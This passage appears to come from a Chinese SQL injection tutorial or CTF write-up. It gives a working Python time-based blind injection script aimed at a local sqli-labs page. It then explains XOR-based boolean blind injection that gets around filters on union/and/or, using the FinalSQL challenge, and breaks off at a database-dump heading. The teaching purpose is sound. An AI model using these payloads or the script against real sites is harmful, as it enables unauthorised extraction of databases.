 ```python
import requests
import time
database=''
str=''
table='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'
for i in range(1,9):
    for char in table:
        charAscii = ord(char)
     
        url = "http://localhost/sql/Less-8/?id=1' and if(ascii(substr(database(),{0},1))={1},sleep(3),1)--+"
        urlformat = url.format(i,charAscii)
        start_time = time.time()
     
        rsp = requests.get(urlformat)
     
        if  time.time() - start_time > 2.5:
            database+=char
            print ('database: ',database)
            break
        else:
            pass
print ('database is ' + database)
```

### 基于异或的布尔盲注

在进行SQL注入时,发现union,and,or被完全过滤掉了,就可以考虑使用异或注入

什么是异或呢

异或是一种逻辑运算，运算法则简言之就是：两个条件相同（同真或同假）即为假（0），两个条件不同即为真（1），null与任何条件做异或运算都为null，如果从数学的角度理解就是，空集与任何集合的交集都为空

即`1^1=0,0^0=0,1^0=1`

利用这个原理可以在union，and，or都被过滤的情况下实现注入

[极客大挑战 2019]FinalSQL

给了五个选项但是都没什么用，在点击后都会在url处出现?id。

而且union，and，or都被过滤

测试发现?id=1^1会报错

![image-20210812195625232](https://www.hualigs.cn/image/6115333810dca.jpg)

但是?id=1^0会返回?id=1的页面，这就是前面说的原理，当1^0时是等于1的所以返回?id=1的页面。

![image-20210812195820578](https://www.hualigs.cn/image/61153335e585c.jpg)

根据原理写出payload，进而写出脚本。

爆库
